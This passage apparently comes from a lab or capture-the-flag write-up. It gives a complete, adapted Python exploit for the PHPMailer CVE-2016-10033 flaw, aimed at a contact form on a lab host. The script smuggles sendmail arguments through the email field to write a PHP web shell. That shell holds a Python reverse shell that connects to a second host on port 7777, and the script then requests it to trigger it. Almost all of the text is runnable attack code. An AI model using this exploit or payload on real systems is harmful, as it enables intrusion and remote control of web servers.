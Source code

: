 ```python
    print('[+]  ExPLoITeD ' + target)                                                                                                                                     

```

Found this exploit but it had some issues. The exploit seems to send post request to the root of the webserver but we have a  contact form in `/contact.php` after that their is a parameter missing named subject in the feilds. And most important of all the validation part also doesn't seem to work so had to comeup with my own.

To sum up my exploit looked like this.

```python
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://192.168.59.128/'
direc='contact.php'
backdoor = '/shell.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.59.130\\\',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'subject':'test',
        'email': '"attacker\\" -oQ/tmp/ -X/var/www/html/shell.php  some"@email.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target+direc, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
else: 
        print('something is wrong')

```
